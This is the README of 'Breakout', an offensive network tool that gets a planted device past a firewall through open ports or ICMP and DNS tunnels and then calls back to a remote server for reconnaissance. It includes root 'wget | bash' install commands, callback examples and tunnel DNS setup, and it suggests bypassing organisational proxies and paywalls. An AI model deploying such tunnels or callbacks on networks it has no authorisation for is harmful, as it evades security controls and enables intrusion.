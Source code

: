 # Breakout 
![GPLv3 License](https://img.shields.io/badge/License-GPLv3-red.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)

Breakout was built to allow a device to get access to the internet on a restricted network by trying to find an open port on the firewall, making a ICMP Tunnel or a DNS Tunnel.

This tools could be used on a device which is dropped on a client's network, then automatically attempts to breakout to the internet. If successful, the device can be remotely managed and used for reconnaissance.

Alternatively, you could use it to circumvent an organisations proxy or Wi-Fi Paywalls!

### Tested On
Ubuntu 16.04 Server

#### Disclaimer
This tool is only for academic purposes and testing under controlled environments. Do not use without obtaining proper authorisation from the network owner of the network under testing.
The author bears no responsibility for any misuse of the tool.

### Credits
The following tools are used in Breakout:
* [icmptunnel](https://github.com/jamesbarlow/icmptunnel) implementation by James Barlow.
* [iodine](https://github.com/yarrick/iodine) implementation by Erik Ekman.

### Notes
Running in aggressive can cause and IPS to kick in so use this as a last resort.

#### Usage
To get a list of all options and switches use:

```sh
sudo python breakout.py -h
```

#### Examples
Find paths to breakout to the internet.
```sh
sudo python breakout.py
```
Callback to server on the internet.
```sh
sudo python breakout.py -c 1.2.3.4
```
Use aggressive mode.
```sh
sudo python breakout.py -a
```
Auto callback to server with DNS Tunnel details.
```
sudo python breakout.py -c 1.2.3.4 -p breakout -n tunnel.mywebsite.com -t
```

## Installation
Breakout is installed by running the following commands in your terminal.

### On Server

```sh
sudo bash -c "$(wget https://raw.githubusercontent.com/robinlennox/breakout/master/lib/setup/install_server.sh -O -)"
```

### On Client
```sh
sudo bash -c "$(wget https://raw.githubusercontent.com/robinlennox/breakout/master/lib/setup/install_client.sh -O -)"
```

### Setup Auto Tunnel
The following will automatically setup a unique account and SSH keys on both the client and the server waiting for the callback which will be used to create the tunnel automatically.
```sh
wget https://raw.githubusercontent.com/robinlennox/breakout/master/lib/setup/install_client.sh -O install_client.sh; sudo bash install_client.sh <CALLBACK_USER>@<CALLBACK_IP> <CALLBACK_PORT>; rm install_client.sh
```
An example would be:
```sh
wget https://raw.githubusercontent.com/robinlennox/breakout/master/lib/setup/install_client.sh -O install_client.sh; sudo bash install_client.sh root@1.2.3.4 22; rm install_client.sh
```

### Setting up DNS Tunnel
Two DNS Records need to be created. It doesn't matter about the sames, however the FQDN which the NS resolves to much match the A record name, in this instance tunnel.

```
iodine      IN  NS  tunnel.mywebsite.com.
tunnel      IN  A   1.2.3.4
```

### Speed of Tunnels
This is based of a quick test I performed over Wifi.
#### No Tunnel
* Speed around 12.2Mbps Down and 4Mbps Up.

#### ICMP Tunnel
* Speed around 350kBits Down and 20kBits Up.  (Can watch 240p Youtube video)

#### DNS Tunnel 
* Using RAW Mode - speed around 1.5MBits Down and 0.5MBits Up. (Can watch 720p Youtube video)
* Not using RAW mode - speed around 15kBits Down and 3kBits Up. (Can just use ssh.. just)
